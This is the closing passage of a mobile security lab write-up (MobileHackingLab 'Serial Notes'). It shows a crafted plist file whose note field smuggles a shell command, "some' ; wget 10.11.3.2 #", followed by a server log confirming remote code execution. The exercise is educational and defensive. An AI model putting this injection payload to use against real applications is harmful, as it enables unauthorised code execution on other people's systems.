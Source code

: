 ```xml
            </dict>
        </dict>
        <!-- Note Data -->
        <string>POC</string>
		    <string>Lets get RCE!</string>
		    <string>date</string>
        <string>some' ; wget 10.11.3.2 #</string>
        <!-- SerialNotes.Note Class Definition -->
        <dict>
            <key>$classname</key>
            <string>SerialNotes.Note</string>
            <key>$classes</key>
            <array>
                <string>SerialNotes.Note</string>
                <string>NSObject</string>
            </array>
        </dict>
        <!-- NSArray Class Definition -->
        <dict>
            <key>$classname</key>
            <string>NSArray</string>
            <key>$classes</key>
            <array>
                <string>NSArray</string>
                <string>NSObject</string>
            </array>
        </dict>
    </array>
</dict>
</plist>
```

Now, all that remains is to load this modified file into the application. If the application processes the file without proper sanitization, we should observe a request to our server, confirming the command injection and remote code execution vulnerability.

```text
10.11.0.1 - - [12/Jun/2024 15:27:40] "GET / HTTP/1.1" 200 -
```

Success, we get code execution!

### Conclusion 

This lab demonstrates the critical importance of sanitizing user-controlled data, especially when deserializing files. The absence of proper data sanitization can lead to severe vulnerabilities, such as command injection and remote code execution. For a hands-on experience with these concepts, visit the lab at [MobileHackingLab - Serial Notes](https://www.mobilehackinglab.com/course/lab-serial-notes). Embark on a journey of discovery and bolster your expertise in mobile security.







